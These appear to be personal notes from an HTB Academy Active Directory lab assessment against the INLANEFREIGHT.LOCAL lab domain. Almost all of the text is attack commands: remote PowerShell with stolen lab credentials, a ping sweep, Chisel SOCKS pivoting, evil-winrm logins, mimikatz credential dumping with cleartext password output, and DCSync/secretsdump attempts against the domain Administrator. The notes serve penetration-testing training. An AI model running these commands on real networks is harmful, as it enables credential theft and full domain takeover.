 # Skills Assessment Part I
```
$password = ConvertTo-SecureString 'lucky7' -AsPlainText -Force ; $cred = new-object System.Management.Automation.PSCredential ('INLANEFREIGHT.LOCAL\svc_sql', $password ); $s= New-PSSession -ComputerName MS01 -Credential $cred; Invoke-Command -Session $s { type C:\PATH\TO\ADMIN\FLAG.txt}

PS> 1..254 | % {echo "172.16.6.$_"; ping -n 1 -w 100 172.16.6.$_} | Select-String ttl

```



Reply from 172.16.6.3: bytes=32 time<1ms TTL=128
Reply from 172.16.6.50: bytes=32 time<1ms TTL=128
Reply from 172.16.6.100: bytes=32 time<1ms TTL=128

Chisel from HTB academy - SOCKS5 Tunneling with Chisel
```
C:\chisel_1.exe server -v -p 1234 --socks5

./chisel client -v 10.129.49.186:1234 socks

proxychains evil-winrm -i 172.16.6.50 -u svc_sql -p lucky7

.\mimikatz.exe SEKURLSA::LogonPasswords exit

```

        wdigest :
         * Username : tpetty
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : tpetty
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : Sup3rS3cur3D0m@inU2eR

`proxychains evil-winrm -i 172.16.6.50 -u tpetty -p Sup3rS3cur3D0m@inU2eR`

```

.\mimikatz.exe lsadump::dcsync /user:INLANEFREIGHT\tpetty exit
.\mimikatz.exe lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\tpetty exit
.\mimikatz.exe lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:tpetty exit
.\mimikatz.exe lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:Administrator exit

secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL	Impacket tool used to perform a DCSync attack and retrieve one or all of the NTLM password hashes from the target Windows domain. Performed from a Linux-based host.
```
